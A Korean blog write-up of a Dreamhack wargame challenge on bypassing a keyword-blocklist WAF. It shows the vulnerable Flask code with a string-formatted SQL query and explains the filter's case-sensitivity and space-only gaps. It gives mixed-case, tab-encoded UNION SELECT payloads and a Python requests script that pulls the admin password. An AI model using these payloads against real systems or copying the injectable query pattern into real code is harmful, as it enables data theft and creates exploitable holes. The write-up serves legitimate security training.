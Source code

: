 ```yaml
---
layout: post
title: "[드림핵][Lv.1] sql injection bypass WAF 문제 풀이"
date:   2025-07-15 13:00:00 +0900
categories: [CTF & Writeups]
tags: [wargame, web, union-sqli, bypass]
---
```


## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: sql injection bypass WAF
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵 워게임](https://dreamhack.io/wargame/challenges/415)



## 2. 문제 분석 (Problem Analysis)

```python
# 예시: app.py
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data: # <- 이 부분을 주목!
            return True
    return False

@app.route('/', methods=['POST', 'GET'])

def index():
	uid = request.args.get('uid')
	if uid:
		if check_WAF(uid):
			return 'your request has been blocked by WAF.'
		cur = mysql.connection.cursor()
		cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
		result = cur.fetchone()
		if result:
			return template.format(uid=uid, result=result[1])
		else:
			return template.format(uid=uid, result='')
	else:
		return template
```

---

### 1. 문제 해설
- 이 문제의 핵심은 check_WAF() 함수를 우회하는 방법을 아느냐 모르냐 이다.
- 위에 check_WAF()함수에서 두 가지 허점이 있다.
    
#### 1) 대소문자를 구분한다.
- keywords 리스트의 모든 단어는 소문자이다.
- 하지만 파이서 in 연산자는 대소문자를 구분하므로, 'union'은 필터링이 되지만, 'UNION'이나 'uNiOn' 등은 필터링되지 않는다.
- 만약 제대로 대소문자를 구분 없이 필터링 한다면, lower() 또는 upper() 메서드를 사용하여 문자열을 소문자 또는 대문자로 변환 한 후 검사를 해써야 했다.

#### 2) 공백 문자(스페이스)만 필터링 한다.
- 리스트에 ' '(스페이스)만 포함되어 있다. 
- 하지만 SQL에서는 스페이스 외에도 다양한 공백 문자를 인식하는 방법이 있다.
- 대표적으로 탭(\t), 줄바꿈(\n) 등도 공백으로 처리되며, URL에서 탭은 %09로 인코딩 할 수 있다.

#### 3) format(uid=uid, result=result[1]) 
- 이 부분이 중요하다.
- 데이터베이스의 uid 값과 일치하면, result 즉, 두 번째 컬럼만 화면에 보여준다는 의미이다.
- 그래서 우리는 admin의 비밀번호를 알기 위해서는 UNION SELECT 구문을 사용해서 원래는 세번째에 있던 upw 컬럼을 두 번째 자리에 끼워 넣어야 한다.
- 즉, 결론적으로 저 코드 한줄로 인해 공격자가 화면에 출력되는 컬럼의 위치를 파악하고, 그 에 맞춰 UNION SELECT 페이로드를 정교하게 구성하도록 만드는 핵심적인 제약 조건인 셈이다.

--	

### 2. 공격 페이로드 구성
- 위에 허점들을 이용해서 페이로드를 만들어 보자

``` sql
'UNION SELECT 1, upw, 3 FROM user WHERE uid='admin'#
```

- 위는 기본 SQLi 페이로드 구성이다. 이걸 우회하는 버전으로 바꿔야 한다.

#### 2-1) 먼저 키워드를 대문자 또는 대소문자를 섞어서 변경해야 한다.
- union -> uNiOn
- select -> sElEcT
	
#### 2-2) 공백 우회
- 모든 공백을 URL 인코딩된 탭(%09) 또는 공백(%20)으로 변경

#### 2-3) admin 문자열 우회
- admin 문자열 역시 16진수(Hex) 값을 문자열로 인식하기 때문에 16진 값으로 변환
	- admin -> 16진수 값(`0x61646d696e`)
	- 또는 Admin 입력

#### 2-4) 최종 페이로드 조합
~~~ sql

'%09uNiOn%09sElEcT%091,upw,3%09fRoM%09user%09wHeRe%09uid=0x61646d696e#

~~~

- 하지만 이렇게 입력 폼에 입력을 하게 되면 에러 메시지와 플러그 값을 얻을 수 없다...
- 별 짓을 다 해도 방법이 없어서 고민하다가 제미나이에게 물어보고 답의 힌트를 얻을 수 있었다.


---

### 3. 브라우저 URL 자동 처리(인코딩) 방식과 Python 코드가 서버에 직접 요청을 보내는 방식 차이

#### 3-1) 브라우저의 자동 URL 인코딩
- 웹 브라우저의 주소창이나 웹사이트의 입력 폼에 페이로드를 직접 입력하면, 브라우저는 이를 서버가 이해 할 수 있는 형태로 **"자동으로 변환(URL 인코딩)"** 한다.
- 이 과정에서 몇 가지 문제가 발생 할 수 있다.


##### (1). 예측 불가능한 변환 
- 브라우저는 안전한 전송을 위해 특정 문자열을 %와 16진수 코드로 바꾼다.
- 예를 들어, 큰 따옴표(")는 %22로, 샵(#)은 %23으로 변환하다.
- 문제는 이변환 규칙이 브라우저 종류나 버전에 따라 미묘하게 다를 수 있고, 의도하지 않는 방식으로 문자를 바꿔버릴 수 있다는 점이다.


##### (2). WAF에 탐지될 가능성 증가
- 브라우저가 변환한 최종 URL이 의도했던 우회 패턴과 달라져서, 서버의 WAF(웹 방화벽)에 탐지될 수 있다.

- 즉, 브라우저는 중간 단계를 거치면서 정교하게 만든 페이로드에 미세한 변형이 생겼고, 그 겨로가 서버에서는 공격이 실패했던 것이다.

#### 3-2) Python 스크립트의 직접 전송
- 반면, requests 라이브러리를 사용한 Python 코드는 정교하게 만든 페이로드를 **"어떠한 변형도 없이 그대로"** 서버에 전송한다.

```python
#성공한 코드
param = f"'%09Union%09Select%09null,upw,null%09From%09user%09where%09uid=\"Admin\"%23"
response = get(f"{url}/?uid={param}")
```

##### (1). 완벽한 통제
- 위 코드에서 param 변수에 담긴 문자열은 브라우저의 자동 변환 같은 중간 과정 없이, HTTP 요청의 일부가 되어 서버로 직접 날아간다.
- %09(탭), "(큰따옴표), %23(#) 등 모든 문자가 원래 의도한 위체에 정확히 전달된다.


##### (2). WAF 우회 성공
- 이 처럼 정교하게 제어된 페이로는 서버의 WAF가 예상하고 패턴을 벗어나 필터링을 필 할 수 있었고, SQL Injection 공격이 성공하여 플래그 값을 얻을 수 있었다.

---

### 4. Python 코드

```python
from requests import get

url = "문제의 URL"

param = f"'%09Union%09Select%09null,upw,null%09From%09user%09where%09uid=\"Admin\"%23"
response = get(f"{url}/?uid={param}")
print(response.text)
```

---
